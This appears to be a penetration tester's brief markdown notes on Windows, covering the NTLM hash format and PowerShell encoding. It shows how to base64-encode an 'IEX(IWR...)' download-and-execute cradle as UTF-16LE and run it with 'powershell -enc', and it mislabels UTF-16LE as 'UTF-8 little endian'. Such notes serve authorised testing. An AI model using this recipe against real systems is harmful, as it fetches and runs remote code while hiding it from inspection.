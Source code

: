 # win_facts

sort these as the field manual develops

## Hashing on windows
> NTLM hashes
```
LM:NTLM						; lan man : new technology lan manager
aad3...:31d6...				; blank hashes
```
> explanation of above
```
LM is no longer used but is often required for interacting with services; Anything can be put here! So long as its a valid hash
```


## default windows encoding
> default encoding
```
UTF-16le 			; UTF-8 little endian

NECESSARY FOR POWERSHELL ENCODED COMMANDS
```


> encoding the payload
```sh
echo -n 'IEX(IWR....)' | iconv -t UTF-16LE | base64 -w 0

explanation:
	echo is the ps command we doing, new object, invoke-web, w.e.
	-t ; to code
	-w 0 ; all on 1 line
```


> detonating the payload
```sh
powershell -enc 'BASE64_ENCODED_COMMAND'
```

